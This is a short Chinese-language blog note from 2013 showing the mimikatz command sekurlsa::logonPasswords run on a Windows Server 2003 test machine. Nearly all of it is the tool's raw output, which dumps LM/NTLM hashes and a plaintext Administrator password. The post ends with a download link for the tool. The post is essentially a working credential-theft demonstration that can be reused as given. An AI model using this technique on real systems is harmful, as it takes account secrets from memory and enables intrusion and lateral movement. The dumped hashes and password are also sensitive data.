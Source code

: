 title: "mimikatz抓取明文密码"
date: 2013-06-08 23:51:03
tags:
id: 188
comment: false
categories:
  - 学习笔记
---

测试环境windows 2003 Server 2003, Enterprise Edition x86
<pre class="brush:cpp">D:\mimikatz_trunk\Win32&gt;mimikatz.exe
mimikatz 1.0 x86 (RC)   /* Traitement du Kiwi (May 17 2013 21:33:24) */
// http://blog.gentilkiwi.com/mimikatz

mimikatz # sekurlsa::logonPasswords

Authentification Id         : 0;996
Package d'authentification  : Negotiate
Utilisateur principal       : NETWORK SERVICE
Domaine d'authentification  : NT AUTHORITY
        msv1_0 :        lm{ aad3b435b51404eeaad3b435b51404ee }, ntlm{ 31d6cfe0d1
6ae931b73c59d7e0c089c0 }
        kerberos :
        ssp :
        wdigest :

Authentification Id         : 0;56264
Package d'authentification  : NTLM
Utilisateur principal       :
Domaine d'authentification  :
        msv1_0 :        n.s. (Credentials KO)
        kerberos :      n.t. (LUID KO)
        ssp :
        wdigest :       n.t. (LUID KO)

Authentification Id         : 0;235959
Package d'authentification  : NTLM
Utilisateur principal       : Administrator
Domaine d'authentification  : LPCDMA-F16E2EA3
        msv1_0 :        lm{ 46860c30cc9f808bf82e44ec0938f4f4 }, ntlm{ a07fc1cf9b
76b5e745231b6ce01ec8e3 }
        kerberos :      lpcdma
        ssp :
        wdigest :       lpcdma

Authentification Id         : 0;997
Package d'authentification  : Negotiate
Utilisateur principal       : LOCAL SERVICE
Domaine d'authentification  : NT AUTHORITY
        msv1_0 :        n.s. (Credentials KO)
        kerberos :
        ssp :
        wdigest :       n.t. (LUID KO)

Authentification Id         : 0;999
Package d'authentification  : NTLM
Utilisateur principal       : LPCDMA-F16E2EA3$
Domaine d'authentification  : WORKGROUP
        msv1_0 :        n.s. (Credentials KO)
        kerberos :
        ssp :
        wdigest :       n.t. (LUID KO)

mimikatz #</pre>
[mimikatz_trunk](http://lpcdma.com/wp-content/uploads/2013/06/mimikatz_trunk.7z)

扩展：[http://www.room362.com/blog/2013/6/7/using-mimikatz-alpha-or-getting-clear-text-passwords-with-a.html](http://www.room362.com/blog/2013/6/7/using-mimikatz-alpha-or-getting-clear-text-passwords-with-a.html)

&nbsp;